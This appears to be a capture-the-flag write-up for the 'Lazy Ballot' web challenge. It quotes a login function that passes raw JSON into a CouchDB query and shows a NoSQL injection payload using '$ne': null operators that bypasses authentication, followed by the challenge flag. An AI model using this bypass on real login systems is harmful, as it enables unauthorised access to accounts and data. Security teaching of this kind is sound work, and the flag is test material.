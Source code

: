 # Lazy Ballot
> As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

## About the Challenge
We have been given a source code (You can download the source code [here](web_lazy_ballot.zip)) and also we got a website to test. Here is the preview of the website

![preview](images/preview.png)

And also there is a login page

![prevew_login](images/login.png)

The flag was located in the database, especially in the `votes` database and we need to login first to obtain the flag

![flag_location](images/flag_location.png)

## How to Solve?
If you check this code in `database.js` file

```js
async loginUser(username, password) {
    const options = {
        selector: {
            username: username,
            password: password,
        },
    };

    const resp = await this.userdb.find(options);
    if (resp.docs.length) return true;

    return false;
    }
```

As you can see there is no filter in the code so we can bypass it using this payload

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

![bypass](images/bypass.png)

And then find the flag in the voting list

![flag](images/flag.png)

```
HTB{c0rrupt3d_c0uch_b4ll0t}
```